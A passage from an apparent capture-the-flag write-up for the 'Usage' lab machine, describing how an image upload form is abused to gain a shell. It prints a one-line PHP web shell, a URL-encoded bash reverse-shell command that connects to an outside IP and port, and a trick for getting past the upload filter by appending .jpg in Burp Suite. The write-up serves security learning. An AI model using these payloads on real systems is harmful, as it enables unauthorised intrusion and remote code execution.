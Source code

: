 It matches because we have a section to upload an image file

![Image](/assets/img/post/usage/Untitled14.png)

## Shell

So we gonna use a powny-shell create with php for get a shell interactive

> Also we can use too this method for get a reverse shell `echo '<?php system($_REQUEST['cmd']); ?>' > shell.php` 
> and the url encoded the '&' `http://admin.usage.htb/uploads/images/shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/9001 0>%261'`
{: .prompt-tip }

[***p0wny-shell***](https://github.com/flozz/p0wny-shell)

![Image](https://github.com/flozz/p0wny-shell/raw/master/screenshot.png)

`When upload the file get a error so we go to intercept with burpsuite and add the extension .jpg for bypass and execute the file.`


[^chmod]: <https://www.quora.com/What-does-chmod-400-mean>